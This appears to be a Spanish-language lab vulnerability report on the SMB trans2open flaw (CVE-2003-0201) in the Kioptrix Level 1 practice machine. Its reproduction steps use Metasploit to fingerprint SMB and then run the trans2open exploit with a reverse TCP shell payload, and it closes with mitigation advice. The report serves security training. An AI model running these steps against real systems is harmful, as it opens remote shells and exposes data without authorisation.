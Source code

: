#  Vulnerabilidad en puerto 139 / protocolo smb

### Descripción
SMB (Server Message Block) es un protocolo cliente-servidor que controla el acceso a archivos y directorios enteros, así como a otros recursos de la red, como impresoras, routers o interfaces compartidas con la red. Una vulneración a este protocolo podría significar el acceso no autorizado de un usuario y la perdida o alteración de información valiosa.

### Sistema Vulnerable
El problema fue identificado y probado en Kioptrix level 1

### Gravedad del problema
Alta

### Reproducción
Obtener  versión del protocolo smb

1. Acceder a la consola de metasploit a través del comando msfconsole en la terminal
2. Ejecutar el módulo smb_version con el comando “use auxiliary/scanner/smb/smb_version”  
3. Establecer la ip destino en RHOSTS ejecutando “set RHOSTS” más la ip de kioptrix
4. Ejecutar el comando “run” para obtener la versión del protocolo smb 

Establecer conexión con el protocolo smb

5. Modificar el archivo smb.conf agregando “client min protocol = NT1” al final del grupo global 
6. Reiniciar servicio samba ejecutando el comando “sudo service smbd restart” 
7. Establecer conexión con el comando “smbclient -L \\\\ip de kioptix\\” y presionar enter cuando solicite password 

Exploit 

8. Acceder a la consola de metasploit y buscar modulo trans2open ejecutando “search trans2open”
9.  Poner en uso el modulo trans2open ejecutando “use” más el número del módulo Linux
10. Establecer la ip destino en RHOSTS ejecutando “set RHOSTS” más la ip de kioptrix 
11. Establecer el payload con el comando “set payload linux/x86/shell_reverse_tcp
12. Ejecutar comando exploit

### Impacto
Un atacante puede abusar de la vulnerabilidad encontrada y escalar privilegios para llevar a cabo un ataque de denegación de servicio contra el sistema vulnerable con el fin de bloquear el servicio para el que está destinado. Este ataque puede afectar, tanto a la fuente que ofrece la información como puede ser una aplicación o el canal de transmisión, así como a la red. En las redes, el peligro de un ataque basado en el protocolo SMB es particularmente alto, ya que, por motivos de compatibilidad, en la red suelen estar activadas todas las versiones de SMB, porque así lo requieren las impresoras u otros dispositivos de red conectados. También es importante tener en cuenta que la información que se encuentra en el sistema vulnerable queda expuesta al atacante y se corre el riesgo de perderla.

### Mitigación
- Bloquear el acceso a los puertos SMB desde redes que no sean de confianza.
- Bloquear el acceso a los puertos tcp / 445 y tcp / 139 en el perímetro de la red evitará ataques de partes que no sean de confianza. Sin embargo, esta no es una solución viable para el medio ambiente donde se necesitan servicios de archivos e impresión para usuarios legítimos.

### Referencias
- https://nvd.nist.gov/vuln/detail/CVE-2003-0201
- https://www.ionos.es/digitalguide/servidores/know-how/server-message-block-smb/


### PoC
![ScreenShot](POC/infosec9.png)
